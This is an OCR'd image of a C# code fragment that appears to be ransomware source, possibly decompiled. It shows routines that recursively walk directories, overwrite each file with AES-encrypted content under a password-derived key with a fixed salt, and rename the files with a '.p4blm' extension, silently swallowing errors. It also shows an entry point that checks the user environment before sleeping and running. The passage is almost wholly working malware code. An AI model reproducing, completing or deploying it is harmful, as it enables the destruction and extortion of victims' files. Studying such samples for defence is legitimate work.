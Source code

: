 ```csharp
				{
					EncryptDirectory(directories[j], password);
				}
			}
		}
		catch
		{
		}
	}

	public static void EncryptFile(string file, string password)
	{
		byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
		byte[] bytes = Encoding.UTF8.GetBytes(password);
		bytes = SHA256.Create().ComputeHash(bytes);
		byte[] bytes2 = AES_Encrypt(bytesToBeEncrypted, bytes);
		try
		{
			File.WriteAllBytes(file, bytes2);
			string text = ".p4blm";
			File.Move(file, file + text);
		}
		catch (UnauthorizedAccessException)
		{
		}
	}

	public static byte[] AES_Encrypt(byte[] bytesToBeEncrypted, byte[] passwordBytes)
	{
		byte[] array = null;
		byte[] salt = new byte[8] { 1, 8, 3, 6, 2, 4, 9, 7 };
		using MemoryStream memoryStream = new MemoryStream();
		using RijndaelManaged rijndaelManaged = new RijndaelManaged();
		rijndaelManaged.KeySize = 256;
		rijndaelManaged.BlockSize = 128;
		Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passwordBytes, salt, 1000);
		rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
		rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
		rijndaelManaged.Mode = CipherMode.CBC;
		using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
		{
			cryptoStream.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length);
			cryptoStream.Close();
		}
		return memoryStream.ToArray();
	}
}

internal class Program
{
	private static void Main(string[] args)
	{
		Execute();
	}

	private static void Execute()
	{
		if (Utils.CheckUser())
		{
			Environment.Exit(0);
		}
		Thread.Sleep(5000);
```